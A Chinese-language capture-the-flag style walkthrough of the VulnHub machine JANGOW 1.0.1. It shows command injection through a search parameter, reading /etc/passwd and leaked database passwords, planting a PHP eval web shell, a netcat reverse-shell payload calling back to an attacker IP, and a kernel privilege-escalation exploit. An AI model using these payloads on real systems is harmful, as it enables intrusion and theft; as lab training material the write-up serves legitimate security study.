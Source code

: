 # JANGOW 1.0.1

> 靶机文档：[JANGOW 1.0.1](https://www.vulnhub.com/entry/jangow-101,754/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/jangow/jangow-01-1.0.1.ova)
>
> 难易程度：**.**

![image-20230920144550613](./imgs/image-20230920144550613.png)

### 网卡配置

[水果味儿](https://www.cnblogs.com/2022zzt/p/15966351.html)

### 信息收集

#### 主机发现

![image-20230920152630055](./imgs/image-20230920152630055.png)

#### 端口扫描

![image-20230920201852054](./imgs/image-20230920201852054.png)

访问`80`端口

![image-20230920202810203](./imgs/image-20230920202810203.png)

点击`site目录`

![image-20230920203029833](./imgs/image-20230920203029833.png)



点击页面上方的一个选项，发现`Buscar`的页面空白，而且地址栏的`url`看着可以输入一些东西

```
http://192.168.8.16/site/busque.php?buscar=
```



![image-20230920204302463](./imgs/image-20230920204302463.png)

在`?buscar=`后面加上`pwd`，显示了当前路径

`/site/busque.php?buscar=pwd`

![image-20230920204401670](./imgs/image-20230920204401670.png)

`/site/busque.php?buscar=cat%20/etc/passwd`

![image-20230920204425345](./imgs/image-20230920204425345.png)

`/site/busque.php?buscar=ls%20-a` 发现了`wordpress`

![image-20230920204650712](./imgs/image-20230920204650712.png)

查看`wordpress`里都有什么文件  `ls wordpress`
![image-20230920204754415](./imgs/image-20230920204754415.png)

查看`cat%20wordpress/config.php`，页面空白，需要查看页面源代码

![image-20230920204902308](./imgs/image-20230920204902308.png)

发现了数据库配置

```php
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

### 漏洞利用

使用命令执行，写入一句话木马

```bash
echo '<?php @eval($_POST[6868]);' >6868.php
```

![image-20230920205153573](./imgs/image-20230920205153573.png)

使用`蚁剑`连接一句话，拿到`webshell`


![image-20230920205655894](./imgs/image-20230920205655894.png)

跟`site`目录同级下，有一个隐藏的`.backup`文件

![image-20230920205923383](./imgs/image-20230920205923383.png)

```php
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```



![image-20230920205820248](./imgs/image-20230920205820248.png)

拿到webshell权限极低，啥也干不了

#### 反弹Shell

查看攻略，该网站限制了一些端口，只能通过`443`端口进行访问

```
/etc/ufw/applications.d/
```

![image-20230920213735426](./imgs/image-20230920213735426.png)

查看apache2-utils.ufw.profile文件

![image-20230920213857882](./imgs/image-20230920213857882.png)

上传木马

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.8.8 443 >/tmp/f');?>
```

![image-20230920214035452](./imgs/image-20230920214035452.png)

kali监听`443`端口

访问该木马文件

![image-20230920215215714](./imgs/image-20230920215215714.png)

成功反弹到

![image-20230920215227513](./imgs/image-20230920215227513.png)

#### 提权

交换shell

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```

查看内核版本

![image-20230920215412740](./imgs/image-20230920215412740.png)

搜索相关漏洞

```bash
searchsploit ubuntu 4.4.0-31
```



![image-20230920215601443](./imgs/image-20230920215601443.png)

```
searchsploit  -p linux/local/45010.c
```



![image-20230920215621804](./imgs/image-20230920215621804.png)

将`45010.c`上传的靶机

我先发送到我本机，然后本机上传到蚁剑上

![image-20230920215827476](./imgs/image-20230920215827476.png)

![image-20230920215934955](./imgs/image-20230920215934955.png)

赋予可执行权限，然后进行编译

![image-20230920220121864](./imgs/image-20230920220121864.png)

上传一个`a.out`文件，执行它

![image-20230920220221251](./imgs/image-20230920220221251.png)

切到`/root`目录下

![image-20230920220243197](./imgs/image-20230920220243197.png)
